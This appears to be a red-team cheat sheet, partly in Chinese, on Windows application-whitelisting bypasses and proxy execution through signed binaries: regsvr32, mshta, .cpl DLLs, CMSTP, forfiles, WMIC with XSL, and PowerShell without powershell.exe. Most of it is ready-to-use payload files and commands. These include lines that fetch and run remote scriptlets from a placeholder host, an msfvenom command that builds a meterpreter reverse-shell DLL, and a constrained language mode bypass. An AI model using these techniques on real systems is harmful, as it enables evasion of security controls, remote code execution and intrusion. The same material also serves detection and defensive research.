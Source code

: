 ## regsvr32

m.sct

```xml
<?XML version="1.0"?>
<scriptlet>
<registration
  progid="TESTING"
  classid="{A1112221-0000-0000-3000-000DA00DABFC}" >
  <script language="JScript">
    <![CDATA[
      var foo = new ActiveXObject("WScript.Shell").Run("calc.exe"); 
    ]]>
</script>
</registration>
</scriptlet>
```

Execute

```cmd
regsvr32.exe /s /i:http://ip/m.sct scrobj.dll
```

## MSHTA

m.sct

```xml
<?XML version="1.0"?>
<scriptlet>
<registration description="Desc" progid="Progid" version="0" classid="{AAAA1111-0000-0000-0000-0000FEEDACDC}"></registration>

<public>
    <method name="Exec"></method>
</public>

<script language="JScript">
<![CDATA[
	function Exec()	{
		var r = new ActiveXObject("WScript.Shell").Run("calc.exe");
	}
]]>
</script>
</scriptlet>
```

Execute

```powershell
# from powershell
cmd /c start /b mshta.exe "javascript:a=(GetObject('script:http://ip/m.sct')).Exec();close();"

mshta.exe "javascript:a=(GetObject('script:http://ip/m.sct')).Exec();close();"

# from cmd
mshta.exe javascript:a=(GetObject('script:http://ip/m.sct')).Exec();close();
```

### HTA

m.hta

```html
<html>
<head>
<script language="VBScript"> 
    Sub RunProgram
        Set objShell = CreateObject("Wscript.Shell")
        objShell.Run "calc.exe"
    End Sub
RunProgram()
</script>
</head> 
<body>
    Nothing to see here..
</body>
</html>
```

Execute

```cmd
mshta.exe http://ip/m.hta
```

## Control Panel Item

The .cpl file needs to export a function `CplApplet` in order to be recognized by Windows as a Control Panel item.

Once the DLL is compiled and renamed to .CPL, it can simply be double clicked and executed like a regular Windows .exe file.

Once the DLL is compiled, use [CFF Explorer](https://ntcore.com/explorer-suite/) to see the exported function `Cplapplet`

```cpp
// Windows 10 Visual Studio 2022 Build
// dllmain.cpp : Defines the entry point for the DLL application.
// #include "stdafx.h"
#include "pch.h"
#include <Windows.h>

//Cplapplet
extern "C" __declspec(dllexport) LONG Cplapplet(
    HWND hwndCpl,
    UINT msg,
    LPARAM lParam1,
    LPARAM lParam2
)
{
    MessageBoxA(NULL, "Hey there, I am now your control panel item you know.", "Control Panel", 0);
    return 1;
}

BOOL APIENTRY DllMain( HMODULE hModule,
                      DWORD  ul_reason_for_call,
                      LPVOID lpReserved
)
{
    switch (ul_reason_for_call)
    {
        case DLL_PROCESS_ATTACH:
            {
                Cplapplet(NULL, NULL, NULL, NULL);
            }
        case DLL_THREAD_ATTACH:
        case DLL_THREAD_DETACH:
        case DLL_PROCESS_DETACH:
            break;
    }
    return TRUE;
}
```

## CMSTP

[cmstp | Microsoft Learn](https://learn.microsoft.com/zh-cn/windows-server/administration/windows-commands/cmstp)

Generating the a reverse shell payload as a DLL

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=eth0 LPORT=8888 -f dll > /root/desktop/evil.dll
```

Creating a file that will be loaded by CSMTP.exe binary that will in turn load our evil.dll

f.inf

```ini
[version]
Signature=$chicago$
AdvancedINF=2.5
 
[DefaultInstall_SingleUser]
RegisterOCXs=RegisterOCXSection
 
[RegisterOCXSection]
path to\evil.dll
 
[Strings]
AppAct = "SOFTWARE\Microsoft\Connection Manager"
ServiceName="cmstp"
ShortSvcName="cmstp"
```

Invoking the payload

```cmd
cmstp.exe /s .\f.inf
```

## Forfiles Indirect Command Execution

当前目录下，找到 `evil.exe`，就执行`evil.exe`

```cmd
forfiles /m evil.exe /c evil.exe
```

指定目录下，找到 `evil.exe`，就执行`evil.exe`

```cmd
forfiles /p path /m evil.exe /c evil.exe
```

## Application Whitelisting Bypass with WMIC and XSL

evil.xsl

```xml
<?xml version='1.0'?>
<stylesheet
xmlns="http://www.w3.org/1999/XSL/Transform" xmlns:ms="urn:schemas-microsoft-com:xslt"
xmlns:user="placeholder"
version="1.0">
<output method="text"/>
	<ms:script implements-prefix="user" language="JScript">
	<![CDATA[
	var r = new ActiveXObject("WScript.Shell").Run("calc");
	]]> </ms:script>
</stylesheet>
```

Invoke any wmic command now and specify /format pointing to the evil.xsl

```cmd
wmic os get /FORMAT:"evil.xsl"
```

## Powershell Without Powershell.exe

### [Github | PowerShdll](https://github.com/p3nt4/PowerShdll)

```powershell
rundll32.exe PowerShdll.dll,main
```

### SyncAppvPublishingServer

```powershell
# from PowerShell
SyncAppvPublishingServer.vbs break; [command]

SyncAppvPublishingServer.exe break; [command]
```

### Powershell Constrained Language Mode Bypass

```powershell
$a = [powershell]::Create(); $a.AddCommand('command'); $a.Invoke()
```

